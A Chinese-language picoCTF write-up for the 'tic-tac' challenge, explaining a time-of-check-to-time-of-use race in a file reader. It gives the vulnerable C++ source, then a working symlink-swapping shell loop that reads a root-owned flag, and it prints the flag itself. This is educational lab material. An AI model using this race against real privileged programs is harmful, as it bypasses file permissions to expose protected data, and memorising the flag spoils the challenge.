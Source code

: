 ```yaml
---
title: PicoCTF - tic-tac
tags: [PicoCTF, CTF, PWN]

---
```


# PicoCTF - tic-tac
## Background
[後端工程師面試考什麼 - Race Condition 篇](https://myapollo.com.tw/blog/interview-question-race-condition/)
[ [Day24]攻擊篇 ](https://ithelp.ithome.com.tw/articles/10208763)
> TOCTTOU
>
>Time of check to time of use
>在檢查和使用之間影響資源狀態的攻擊
>
>這種攻擊可能發生在共享資源中。
>可能導致程式在資源處於意外狀態時執行無效操作。
## Source code
:::spoiler Source code
```cpp=
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```
:::
## Recon
第一次寫這一種題目，具@ccccctw所說算是考古題了，看了[^pico_pwn_wp_maple_tic_tac][^pico_pwn_wp_martin_tic_tac][^pico_pwn_wp_aydin_tic_tac]還是不知道怎麼做出來的，所以問了@ccccctw
1. 可以看到source code是檢查root權限才可以讀到flag
2. 用兩次soft link讓這支程式呈現race condiction的狀態(不見得每次都會所以要靠賽)
3. 首先要先用一個infinity while loop創兩個soft link，然後在背景執行，第一次的soft link(`$ ln -sf test1 test`)是為了要過掉root權限的檢查，而第二次的soft link(`ln -sf flag.txt test`)是用來讀flag的
具體來說是這樣：
test的link會在flag.txt和test1之間切換，若我們用txtreader讀取test時，會有權限檢查，如果此時的link是test1，權限檢查就會通過，此時如果剛好test的link指向flag.txt，那我們就可以無縫的讀取到flag.txt的內容
5. 接著就可以用他的txtreader讀取test，如果幸運的話就可以讀到需要root權限的flag
## Exploit
```bash
$ ssh ctf-player@saturn.picoctf.net -p 59620
$ touch test1
$ while true; do ln -sf flag.txt test; ln -sf test1 test; done &
[1] 3039
$ for i in {1..1000};do ./txtreader test; done > output
$ cat output
picoCTF{ToctoU_!s_3a5y_007659c9}
picoCTF{ToctoU_!s_3a5y_007659c9}
picoCTF{ToctoU_!s_3a5y_007659c9}
picoCTF{ToctoU_!s_3a5y_007659c9}
picoCTF{ToctoU_!s_3a5y_007659c9}
picoCTF{ToctoU_!s_3a5y_007659c9}
```

Flag: `picoCTF{ToctoU_!s_3a5y_007659c9}`
## Reference
[^pico_pwn_wp_maple_tic_tac]:[tic-tac maple](https://blog.maple3142.net/2023/03/29/picoctf-2023-writeups/#tic-tac)
[^pico_pwn_wp_martin_tic_tac]:[picoCTF 2023 tic-tac](https://youtu.be/ONMVfKDqCr0)
[^pico_pwn_wp_aydin_tic_tac]:[ TicTac (TOCTOU attack) - Pico CTF 2023 - Race Condition ](https://youtu.be/b1-Aw96zysM)